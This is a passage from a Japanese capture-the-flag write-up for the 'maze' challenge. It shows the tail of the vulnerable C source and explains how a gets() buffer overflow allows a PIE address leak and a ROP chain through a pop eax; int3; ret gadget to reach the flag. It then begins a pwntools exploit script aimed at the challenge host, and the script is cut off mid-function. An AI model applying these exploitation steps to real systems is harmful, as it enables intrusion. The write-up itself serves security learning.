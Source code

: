 ```C
  } else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  } else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
  }

  exit(0);
}

int main(int argc, char **argv) {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  safeguard();
  vuln();
}

```

`gets()`を使っていることから自明なBOFがあり、これで`buf`の下の`padding`と`secret`に加えてスタックフレーム以下も書き換える事が出来る。

ご丁寧な事に、現在のスタックの状況を教えてくれ、そこにmain関数に戻る際のアドレスが記載されている事から、PIE有効下にも関わらず、ELFの配置アドレスは判明する。また、退避させたebpもBOFで書き換えてしまうと落ちるのでこれも取得して書き換えないようにする。

というわけで、まずは`secret = 0x67616c66`になるようにしてからコメントアウトされている`print_flag()`関数内の処理をするようにROPを組む。

`asm("pop %eax; int3; ret");`が書かれているようにクソ便利なROP Gadgetもあるのでこれを使う。

使用スクリプトは次の通り

```python
from pwn import remote, p32


# connection info
target = "maze.chal.perfect.blue"
port = 1


def create_conn():
    sc = remote(target, port)
    sc.recvuntil(b"(Y/n) ")
    sc.sendline(b"n")

    return sc


def get_gadgets(elf_base):
    gadgets = {}

    gadgets["pop_regs"] = elf_base + 0x1396  # 0x00001396: pop esi ; pop edi ; pop ebp ; ret  ;
    gadgets["pop_eax_int3_ret"] = elf_base + 0x13ad  # 0x000013ad: pop eax ; int3  ; ret  ;

    return gadgets


def recover_addr(nums):
    raw_addr = ""
    for n in reversed(nums):
        raw_addr += n

    return int(raw_addr, 16)


def parse(line):
    hex_str = line[13:-2].split(" ")
    top_half = hex_str[:4]
```
